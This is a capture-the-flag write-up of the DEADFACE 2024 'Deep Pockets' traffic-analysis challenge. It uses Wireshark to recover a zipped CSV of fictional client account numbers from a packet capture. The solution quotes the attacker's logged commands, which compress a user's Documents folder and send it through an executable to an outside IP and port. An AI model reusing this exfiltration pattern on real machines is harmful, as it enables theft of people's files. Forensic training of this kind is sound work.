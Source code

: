 ```yaml
---
title: "Deep Pockets"
draft: false
tags: ["TRAFFIC ANALYSIS"]
series: "deadface2024"
date: 2024-10-06
---
```


## Challenge Description
>Garry Sartoris had a CSV file of VIP clients on his machine that DEADFACE exfiltrated. TGRI wants us to confirm William Harrington’s account number to determine if his information was compromised. Submit William Harrington’s account number as the flag.
>
>Submit the flag as flag{AAAA##############}.

## file
[phantom.zip](/deadface2024/phantom.zip)

## Solution
In `Wireshark` we can use the filter `data` and search for any `csv` string in packet bytes.

![Image of wireshark filters](/deadface2024/deepPockets-1.png)

By following the TCP Stream of the first result (tcp.stream eq 297) we see some logs of windows PowerShell commands that contains `vip-clients.csv`.

The csv file we want is compressed with some other files into a zip archive:

`PS C:\Users\garry> Compress-Archive -Path "C:\Users\garry\Documents" -DestinationPath "C:\Users\garry\collection.zip"`

The archive is then sent through an ip and tcp port:

`PS C:\Users\garry> 945f.exe 45.55.201.188 7523 < collection.zip`

We can now use more precise filters: 

```ip.dst == 45.55.201.188 and tcp.port == 7523```

and save the raw data from the first tcp stream (tcp.stream eq 311). 

![Image of wireshark tcp stream](/deadface2024/deepPockets-2.png)

Let's name it collection.zip. We can now decompress it and print its content.

```
unzip collection.zip 
Archive:  collection.zip
warning:  collection.zip appears to use backslashes as path separators
  inflating: Documents/Garry_Sartoris_Timesheet.docx  
  inflating: Documents/techno_global_research_industries.xlsx  
  inflating: Documents/TGRI_2024_Q4_Goals_Presentation.pptx  
  inflating: Documents/TGRI_Dress_Standards_Letter.docx  
  inflating: Documents/vip-clients.csv  
```

```
cat Documents/vip-clients.csv 
Customer Name, Account Number
Melissa Bolton, SJWX94378180672085
Aaron Parker, FJOY35738636143323
William Harrington, RRNQ85158591854615
Jennifer Smith, IYEC17545523444798
```

Flag: flag{RRNQ85158591854615}
